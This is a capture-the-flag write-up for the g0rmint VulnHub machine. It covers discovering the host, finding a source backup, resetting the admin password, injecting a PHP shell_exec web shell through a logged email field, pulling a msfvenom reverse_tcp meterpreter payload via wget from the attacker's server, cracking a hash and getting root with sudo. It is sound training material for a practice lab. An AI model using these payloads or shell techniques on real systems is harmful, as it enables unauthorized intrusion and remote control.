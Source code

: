 +++
title = "g0rmint"
slug = "g0rmint"
[taxonomies]
categories=["vulnhub"]
tags=["vulnerable-machine"]
+++

# g04mint

First off, find the box:

```bash
netdiscover -r 192.168.171.0/24

Currently scanning: Finished!   |   Screen View: Unique Hosts

3 Captured ARP Req/Rep packets, from 3 hosts.   Total size: 180
_____________________________________________________________________________
IP            At MAC Address     Count     Len  MAC Vendor / Hostname
-----------------------------------------------------------------------------
192.168.171.1   00:50:56:c0:00:01      1      60  VMware, Inc.
192.168.171.138 00:0c:29:1f:ad:4c      1      60  VMware, Inc.
192.168.171.254 00:50:56:fa:32:59      1      60  VMware, Inc.

```

Scan with nmap:

```bash
nmap -T4 -A -oA g0rmint  192.168.171.138
```

Looks like 22 and 80 are open, not a lot to go on...

Accessing the server on port 80 returns a 404 page, better try for a robots.txt and find this:

/* Too easy? Lets see */
Disallow: /g0rmint/*

Now I'm faced with a login page and nothing to go on, however the following showed up in the login page's markup:

```html
<meta name="backup-directory" content="s3cretbackupdirect0ry">
```

Next run dirb to try and find hidden content, nothing really popped up.

I tried fuzzing a bunch of mobile user agents to see if this meta tag somehow triggers a different page response as well as brute forcing the login/reset forms, nothing seemed to be working.

Then I remembered I need to try force browsing that directory now that new file system elements exist:

```bash

dirb http://192.168.171,138/g0rmint/s3crebackupdirect0ry -i -l

```

This found an info.php file which shows backup.zip, lets download that and take a look

A few interesting things here, first the config file has a function for writing PHP files out to the server, and the login page calls this storing the email form field in the generated PHP.

```php

function addlog($log, $reason) {
    $myFile = "s3cr3t-dir3ct0ry-f0r-l0gs/" . date("Y-m-d") . ".php";
    if (file_exists($myFile)) {
        $fh = fopen($myFile, 'a');
        fwrite($fh, $reason . $log . "<br>\n");
    } else {
        $fh = fopen($myFile, 'w');
        fwrite($fh, file_get_contents("dummy.php") . "<br>\n");
        fclose($fh);
        $fh = fopen($myFile, 'a');
        fwrite($fh, $reason . $log . "<br>\n");
    }
    fclose($fh);
}

```

Next looking at the register page if we know a legit user/email combination the user's password will be reset to the first 20 characters of a sha1 hash of the current date/time in GMT, which luckily gets printed to the page each time you reload or submit a postback.


After a lot of banging my head I finally learned a vital piece I'm usually missing during enumeration, in this case we need an email.  What I'm finally learning is I should be searching better any time I have a known input, in this case the email can be searched for in all this source code:

```bash

grep -i -r -E -o "\b[a-zA-Z0-9.-]+@[a-zA-Z0-9.-]+\.[a-zA-Z0-9.-]+\b" *
Binary file backup.zip matches
css/font-awesome.min.css:dave@davegandy.com
css/style.css:w3bdrill3r@gmail.com
css/style.css:timeline-left-arrow@2x.png
css/style.css:timeline-right-arrow@2x.png
css/style.css:chat-left@2x.png
css/style.css:chat-right@2x.png
css/style.css:chat-left-metro@2x.png
css/style.css:chat-right-metro@2x.png
css/font-awesome-ie7.min.css:dave@davegandy.com
db.sql:demo@example.com
Binary file img/gallery/photo5.jpg matches
js/jquery.elfinder.min.js:troex@fury.scancode.ru
js/jquery.elfinder.min.js:dio@std42.ru
js/jquery.elfinder.min.js:troex@fury.scancode.ru
js/jquery.elfinder.min.js:strogg@yandex.ru
js/jquery.elfinder.min.js:hypweb@gmail.com

```

Now to review all the files, style.css seems like a good starting point, thats usually the place an author or developer would put their CSS for a site/app.

```css

/*
* Author: noman
* Author Email: w3bdrill3r@gmail.com
* Version: 1.0.0
* g0rmint: Bik gai hai
* Copyright: Aunty g0rmint
* www: http://g0rmint.com
* Site managed and developed by author himself
*/

```

Right in plain site, it even states the manager/developer/admin as this person.

Now to get our password, time to generate our hash:

```php

substr(hash('sha1', 'date time string from the page load'), 0, 20);

```

and we have our password.

With the amount of time that elapsed getting this far I had completely forgotten about the addslashes call in config.php which lead to me wasting hours trying to get decent code execution going.  Once I reviewed the code again getting execution was pretty straightforward:

```php

<?php echo shell_exec(base64decode($_GET[cmd])); ?> 

```

as our email and we can start sending commands.

Now to generate a wget command to pull down a reverse_tcp shell:

```bash

msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.171.136 LPORT=4444 R > shell.php
echo 'wget http://192.168.171.36:8000/shell.php' | base64
d2dldCBodHRwOi8vMTkyLjE2OC4xNzEuMzY6ODAwMC9zaGVsbC5waHAK==
python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
192.168.171.138 - - [17/Jan/2018 22:32:39] "GET /shell.php HTTP/1.1" 200 -
```

Now to setup metasploit to handle the callback:

```bash

screen -S msf msfconsole

msf > use exploit/multi/handler
msf exploit(handler) > show options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


msf exploit(handler) > set LHOST 192.168.171.136
LHOST => 192.168.171.136
msf exploit(handler) > set LPORT 4444
LPORT => 4444

set PAYLOAD php/meterpreter/reverse_tcp

```

Then request our webshell, and we have a meterpreter session running.

Once connected I grabbed and ran LinEnum from rebootuser in hopes of finding something juicy.  Once I had the output I started parsing through and searched for vulns in the kernel, mysql, apache. logs, binaries, etc. and having nothing work.  Then took a look around and saw another backup.zip, extract and get this difference:

```sql
INSERT INTO `g0rmint` (`id`, `username`, `email`, `pass`) VALUES
(1, 'noman', 'w3bdrill3r@gmail.com', 'ea60b43e48f3c2de55e4fc89b3da53dc');
```

Then crack the hash and get: tayyab123

Now to try ssh with the g0rmint user in /etc/passwd and get a login, run sudo -l:

```bash
g0rmint@ubuntu:~$ sudo -l
[sudo] password for g0rmint:
Matching Defaults entries for g0rmint on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User g0rmint may run the following commands on ubuntu:
    (ALL : ALL) ALL
```

Looks like we're done: 

```bash

g0rmint@ubuntu:~$ sudo su
root@ubuntu:/home/g0rmint# ls /root
flag.txt
root@ubuntu:/home/g0rmint# cat /root/flag.txt
Congrats you did it :)
Give me feedback @nomanriffat
root@ubuntu:/home/g0rmint#

```
